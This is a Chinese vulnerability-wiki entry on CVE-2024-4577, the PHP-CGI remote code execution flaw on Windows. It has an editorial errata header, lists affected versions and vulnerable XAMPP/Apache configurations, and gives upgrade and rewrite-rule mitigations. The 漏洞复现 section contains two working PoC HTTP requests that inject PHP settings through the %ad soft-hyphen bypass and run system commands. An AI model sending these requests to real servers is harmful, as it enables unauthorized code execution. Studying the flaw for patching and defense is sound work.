



# PHP-CGI-Windows-平台远程代码执行漏洞-CVE-2024-4577

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：PHP CGI on Windows / Apache XAMPP
- 文献类型：产品漏洞复现与修复指南
- 版本、权限及部署边界：Windows特定ANSI代码页936/950/932，CGI映射或PHP二进制暴露；XAMPP8.1.25案例；列PHP8.3.8/8.2.20/8.1.29修复
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 主产品应PHP CGI/运行时，Windows为平台条件，宜跨分类关联避免泛OS漏洞归属
2. chcp显示控制台代码页，不能单独证明PHP进程使用的Windows ANSI代码页/Best-Fit条件，应补正确环境判据
3. 两种部署场景及停止维护分支说明较完整，保留；需补官方PHP公告/原研究而非只有下载页与情报平台
4. HTTP样例含请求体却未列Content-Length/传输封装，须标由代理重算的示意；GET body兼容性与POST条件需说明
5. 修复末尾ScriptAlias /php-cgi/与引号之间缺空格，与上文正常配置不一致，应纠正
6. 临时rewrite明确有限语系有价值，但不得当永久或全变体修复；历史最新版本字眼需固定时间，图片未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://ti.qianxin.com/vulnerability/notice-detail/1020?type=risk>
- 原文参考链接（未重新核验）：<https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.1.25/xampp-windows-x64-8.1.25-0-VS16-installer.exe>
- 原文参考链接（未重新核验）：<http://your-ip/dashboard`>
- 原文参考链接（未重新核验）：<https://www.php.net/downloads.php>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

PHP 在设计时忽略 Windows 中对字符转换的 Best-Fit 特性，当 PHP 运行在 Window 平台且使用了如下语系（简体中文 936/繁体中文 950/日文 932 等）时，攻击者可构造恶意请求绕过 CVE-2012-1823 保护，从而可在无需登陆的情况下执行任意 PHP 代码。

参考链接：

- https://ti.qianxin.com/vulnerability/notice-detail/1020?type=risk

## 漏洞影响

主要影响 PHP 在 Windows 操作系统上的安装版本：

```
PHP 8.3 < 8.3.8
PHP 8.2 < 8.2.20
PHP 8.1 < 8.1.29
```

查看 Windows 操作系统默认编码（936 为中文 GBK，65001 为 UTF-8）：

```
chcp
```

## 环境搭建

### 场景 1 - 在 CGI 模式下运行 PHP

在配置 Action 指令将相应的 HTTP 请求映射到 Apache HTTP Server 中的 PHP-CGI 可执行二进制文件时，可直接利用此漏洞。受影响的常见配置包括但不限于：

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

或者

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>
 
Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

### 场景 2 - 公开 PHP 二进制文件（默认的 XAMPP 配置）

常见场景包括但不限于：

1. 将 php.exe 或复制 php-cgi.exe 到/cgi-bin/目录。
2. 通过指令公开 PHP 目录 ScriptAlias，例如，在 XAMPP 默认配置 `httpd-xampp.conf` 中：

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

[官网](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.1.25/xampp-windows-x64-8.1.25-0-VS16-installer.exe) 搭建环境，php 版本 8.1.25。启动完成后，访问 `http://your-ip/dashboard` 即可看到 XAMPP 主页：




## 漏洞复现

poc1：

```
GET /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
REDIRECT-STATUS:1

<?php system("dir");?>
```




poc2：

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
REDIRECT-STATUS:1

<?php system("dir");?>
```




## 漏洞修复

### 安全更新

目前官方已有可更新版本，建议受影响用户升级至最新版本：

```
PHP 8.3 >= 8.3.8
PHP 8.2 >= 8.2.20
PHP 8.1 >= 8.1.29
```

注：由于 PHP 8.0、PHP 7 和 PHP 5 的分支已终止使用，并且不再维护，服务器管理员可以参考“缓解方案”中的临时补丁建议。

官方下载地址：

https://www.php.net/downloads.php

### 缓解方案

#### 1. 对于无法升级 PHP 的用户

以下重写规则可用于阻止攻击。需要注意的是，这些规则仅对繁体中文、简体中文和日语语言环境起到临时缓解作用。在实际操作中，仍然建议更新到补丁版本或迁移架构。

```
RewriteEngine On
RewriteCond %{QUERY_STRING} ^%ad [NC]
RewriteRule .? - [F,L]
```

#### 2. 对于使用 XAMPP for Windows 的用户

如果确认不需要 PHP CGI 功能，可以通过修改以下 Apache HTTP Server 配置来避免受到该漏洞的影响：

```
C:/xampp/apache/conf/extra/httpd-xampp.conf
```

找到相应的行：

```
ScriptAlias /php-cgi/"C:/xampp/php/"
```

并将其注释掉：

```
# ScriptAlias /php-cgi/"C:/xampp/php/"
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
